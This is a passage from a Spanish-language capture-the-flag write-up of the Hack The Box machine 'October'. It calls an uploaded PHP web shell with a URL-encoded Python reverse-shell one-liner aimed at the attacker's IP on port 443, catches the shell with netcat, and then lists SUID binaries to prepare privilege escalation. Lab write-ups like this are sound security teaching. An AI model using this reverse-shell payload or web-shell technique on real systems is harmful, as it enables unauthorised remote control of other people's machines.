 Ahora si, lanzamos la reverse shell y nos ponemos en escucha por el puerto 443:

```bash
http://10.10.10.16/storage/app/media/k4mishell.php5?cmd=python%20-c%20%27import%20socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect((%2210.10.14.16%22,443));os.dup2(s.fileno(),0);%20os.dup2(s.fileno(),1);%20os.dup2(s.fileno(),2);p=subprocess.call([%22/bin/sh%22,%22-i%22]);%27
```

```bash
❯ nc -nlvp 443
listening on [any] 443 ...
connect to [10.10.14.16] from (UNKNOWN) [10.10.10.16] 49506
/bin/sh: 0: can't access tty; job control turned off
$ whoami
www-data
$ 
```

No encontramos dentro de la máquina como el usuario **www-data** y podemos visualizar la flag (user.txt). Como siempre, para trabajar más comodos, hacemos un [Tratamiento de la tty](/tratamiento-tty). Ahora nos queda escalar privilegios y enumeramos un poco el sistema.

```bash
www-data@october:/$ id
uid=33(www-data) gid=33(www-data) groups=33(www-data)
www-data@october:/$ sudo -l
[sudo] password for www-data: 
www-data@october:/$ cd /
www-data@october:/$ find \-perm -4000 2>/dev/null
./bin/umount
./bin/ping
./bin/fusermount
./bin/su
./bin/ping6
./bin/mount
./usr/lib/eject/dmcrypt-get-device
./usr/lib/openssh/ssh-keysign
./usr/lib/policykit-1/polkit-agent-helper-1
./usr/lib/dbus-1.0/dbus-daemon-launch-helper
./usr/bin/sudo
./usr/bin/newgrp
./usr/bin/pkexec
./usr/bin/passwd
./usr/bin/chfn
./usr/bin/gpasswd
./usr/bin/traceroute6.iputils
./usr/bin/mtr
./usr/bin/chsh
./usr/bin/at
./usr/sbin/pppd
./usr/sbin/uuidd
./usr/local/bin/ovrflw
www-data@october:/$
```
